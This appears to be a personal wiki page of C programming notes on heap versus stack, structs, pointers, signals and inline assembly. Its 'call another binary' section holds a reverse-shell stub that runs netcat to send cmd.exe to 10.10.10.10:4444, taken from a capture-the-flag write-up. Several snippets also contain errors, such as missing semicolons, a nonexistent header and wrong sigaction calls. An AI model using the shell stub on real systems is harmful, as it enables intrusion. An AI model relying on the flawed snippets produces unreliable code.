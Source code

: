 
[[Valgrind]] and [[GDB]]/[[Microsoft-Visual-Studios]] your code! 


Stack Versus Heap variable declaration
```c
// stack variables are declared like this:
int stackVariable = 69;

// malloc return a pointer to heap variable and takes a int as size 
int *heapVariable = malloc(sizeof(int));
// then needs to have a value assigned:
*heapVariable = 69;
// Alway free memory after use
free(heapVariable);
```


Structs
```c
struct rectangle {
  int width;
  int height;
};
 struct rectangle my_rec = { 1, 2 }; // Fields can be initialized immediately

  // Access struct members with .
  my_rec.width = 10;
  my_rec.height = 20;

  // You can declare pointers to structs
  struct rectangle *my_rec_ptr = &my_rec;

  // Use dereferencing to set struct pointer members...
  (*my_rec_ptr).width = 30;

  // ... or even better: prefer the -> shorthand for the sake of readability
  my_rec_ptr->height = 10; // Same as (*my_rec_ptr).height = 10;
```

Pointers - [recommended viewing Dave's Garage Youtube video](https://www.youtube.com/watch?v=IrGjyfBC-u0) 
```c
// Pointer are stored memory addresses, they point to memory address where values are stored
// Indirection - a pointer hold the address of values 
// Data at that address that the pointer is pointing to can be access and tranformed

// create a pointer of type byte pointing to memory address 4321;
byte * myPointer = (byte *) 4321;
// Change the value at the point
*myPointer = 0;

// class.memberVariable is member variable of the class 
class->memberVariable // goto to the object pointed to and then get member variable by this name, indicates a pointer to the object, not reference to itself!

// if you do not need to retrieve an entire struct in a function call use pointers
// Passed-by-value retrieve a complete copy, Passed-by-Reference means passing an object in the form of pointer
// One entire structure Vs. One or more Pointer  
int getTotalTheMemberVars(someStruct * pStruct)
{
	return pStruct->PointersToOtherPointers + pStruct->PointersToOtherStructs;
}

// Pointer pointing to the first element of an Array in memory, with the length of the array is like using the array without loading it on to the stack
// The array is "syntactic sugar" for the memory address
// char * contains the address of the first byte of a string in memory
// The size of an array is its actual size, where the pointers is system dependent 32-bit and 64bit
char someText[] = "Subscribe to Dave's Garage on Youtube, he bought Pinball on Windows amongst alot other things!"; // \x00 terminates a string! 
char * pSomeText = someText; 
int aPinballLoses[] = { 1, 2, 3, 4, 5};
int * pPinballLoses = aPinballLoses;

// Pointer arithmetic
// Move by the size of the type that it points to, not one byte!
// Increments point by a single byte
pSomeText++; // One char is one byte move 1 * 8 bits = 1 byte
pPinballLoses++; // 32-bit integers is a 4 byte move 8 + 8 + 8 + 8 or 4*8 = 32 

// Pointers to pointers
//pIndirectPlugOfThePlugOfTheVideo 
//Points to...
//pMicrosoftAndAIModelsIntoResurrectingPinball
char * pMicrosoftAndAIModelsIntoResurrectingPinball = "Microsoft putting Pinball on Windows 11 will make some people switch Windows 11";
char ** pIndirectPlugOfThePlugOfTheVideo = &pMicrosoftAndAIModelsIntoResurrectingPinball;
// So
return *pIndirectPlugOfThePlugOfTheVideo;
// will just return ... pMicrosoftAndAIModelsIntoResurrectingPinball 


// Null != Uninitialised != Void pointer 
// Null pointer points to 0, it is initialed to 0
// Uninitialised pointer random value till it is initialised
// Void pointer is just the address and is not type defined and must be cast to a object pointer before use. It assigned nil type information. Malloc API has allocate memory that can then be told what type of object will stored at that memory
void*
// Hacking the Art of Exploitation - page 55
int void_pointry() 
{
	int i;
	char char_array[5] = {'a','b','c','d','e'};
	int int_array[5] = {1,2,3,4,5}
	char *char_pointer;
	int *int_pointer;
	char_pointer = (char *) int_array; // Typecast into 
	int_pointer = (int *) char_array; // pointer's data type
	for (i=0; i <5; i++) {
		printf("[integer pointer] points to %p, which conatins the char '%c'\n", int_pointer, *int_pointer);
		printf("[char pointer] points to %p, which conatins the int '%c'\n", char_pointer, *char_pointer);
		int_pointer = (int *) ((char *) int_pointer +1);
		char_pointer = (char *) ((int *) char_pointer +1);
	}
}

// Function Pointer is a pointer to a function 
// Beware readability
int add(int a, int b) 
{
	return a + b;
}
// (*pAdd) requires brackets for operator precedence
int (*pAdd)(int,int) = add;
// Bracket are also required for calling a function pointer
int sum = (*pAdd)(5, 3);

```

Processes - Unix
```c
#include <signal.h>
// This is more portable
#include <sigaction.h>


// Handler is a function
// User defined signals
SIGUSR1;
SIGUSR2;
// SegFault Signal
SIGSEGV;

sigaction(SIGINT, handler);
sigaction(SIGTERM, handler);

signal(SIGINT, handler);
signal(SIGTERM, handler);
// SIGKILL cannot be handler - oreder not a request
```

Simple use system to call another binary - see [[Compiling-Exploits]]
```c
#include "stdlib.h"
//#include "stdafx.h" speeds up compile time
// i686-w64-mingw32-gcc shell.c -o shell.exe
// x86_64-w64-mingw32 shell.c -o shell.exe

// Originally from https://snowscan.io/htb-writeup-giddy/#
// But you could replace the system call with anything
int main()
{
    system("nc.exe -e cmd.exe 10.10.10.10 4444");
    return 0;
}
```

[Inline](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html) [[x86-Assembly]], or [[x86-64-Assembly]] - for size considerations see [Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm); The `asm` keyword is a GNU extension. When writing code that can be compiled with [`-ansi`](https://gcc.gnu.org/onlinedocs/gcc/gcc-command-options/options-controlling-c-dialect.html#cmdoption-ansi) and the various [`-std`](https://gcc.gnu.org/onlinedocs/gcc/gcc-command-options/options-controlling-c-dialect.html#cmdoption-std) options, use `__asm__` instead of `asm` (see [Alternate Keywords](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/alternate-keywords.html#alternate-keywords)).
```c
int inlineThis() 
{
	// The optional `volatile` qualifier has no effect. All basic `asm` blocks are implicitly volatile.
	__asm__ volatile (" ") X
	// If you use the `inline` qualifier, then for inlining purposes the size of the `asm` statement is taken as the smallest size possible
	__asm__ inline (" " )
}

```
## References

[Windows - C Language Reference](https://learn.microsoft.com/en-us/cpp/c-language/c-language-reference?view=msvc-170)
[GCC](https://linux.die.net/man/1/gcc)
[XinYminutesC](https://learnxinyminutes.com/docs/c/)
[Jacob Sorber Programming with Processes](https://www.youtube.com/playlist?list=PL9IEJIKnBJjFNNfpY6fHjVzAwtgRYjhPw)
[Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm)
[Inline Assembly Lanaguage in C Code - gcc.gnu.org](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html)
[Hacking: The Art of Exploitation, 2nd Edition 2nd ed. by Erickson, Jon (ISBN: 0689145714418)](Hacking: The Art of Exploitation, 2nd Edition 2nd ed. by Erickson, Jon (ISBN: 0689145714418)